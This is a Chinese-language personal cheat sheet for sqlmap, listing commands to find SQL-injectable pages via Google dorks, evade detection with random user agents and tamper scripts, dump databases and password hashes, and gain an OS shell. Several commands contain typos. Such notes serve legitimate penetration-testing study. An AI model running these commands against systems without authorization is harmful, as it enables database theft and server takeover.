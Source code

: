 ```yaml
---
title: 18.sqlmap
description: sqlmap注入神器
published: 1
date: 2023-06-09T10:17:14.579Z
tags: web safe, sqlmap
editor: markdown
dateCreated: 2023-04-19T17:45:04.766Z
---
```


<center>Sqlmap</center>



[toc]







## sqlmap

> 开源渗透工具，自动检测和利用sql注入漏洞 [github](https://github.com/sqlmapproject/sqlmap)



### 1. 使用

> 参数: [usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

> target

```shell
sqlmap -h

# url
sqlmpa -u url


# 有提示的
sqlmap --wizard 

# -m 文件   * 所参数
www.target1.com/vuln1.php?q=foobar
www.target2.com/vuln2.asp?id=1
www.target3.com/vuln3/id/1*

# -r 请求测试
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0
id=1

# -g 谷歌
sqlmap -g "inurl:\".php?id=1\""
```



> request

```shell
# http方法和data  --method=  --data 重要
# 提交post
sqlmap -u "url" --method=post --date="id=1"

# --param-del 分隔符
sqlmap -u "url" --data="query=foobar;id=\
1" --param-del=";" -f --banner --dbs --users

# --cookie= 设置cookie

# --user-agent=  请求头：浏览器信息 重要
sqlmap -u "url" --user-agent="浏览器信息"

# --random-agent 随机 浏览器信息 重要
sqlmap -g "inurl:\".php?id=1\"" --random-agent

# --referer 网站的来源 重要
--referer=
# --headers= http头
# --proxy= 代理
```



> injection 注入

```shell
# --level 3 等级越高测试越多

```



> techniques 注入技术

```shell
```



> enumeration 枚举

```shell
# --users 列出注入用户

# --tables 表  

# --current-db 当前数据库 

# --passwords 密码

# --schema 系统库 --dump 数据dump出来
```



> 常用命令

```shell
# 常用
sqlmap -u url  
sqlmap -u url --tamper randomcase.py # 混淆代码  /usr/share/sqlmap/tamper 其他代码
sqlmap -u url --level 4 

# 权限
sqlmap -u url --privileges 
sqlmap -u url --is-dba #个人权限


# 查看库 表
--dbs/--current-db # 数据库
# 查看 某个库的表
sqlmap -u url -D database --table
# 查看表字段
sqlmap -u url -D database -T table --columns
# 内容
sql -u url -D datables -T table -C name --dump

# 查看用户
--user
# 密码
--passwords
# 系统表
--schema
# shell  实际上传木马
--os-shell
```




























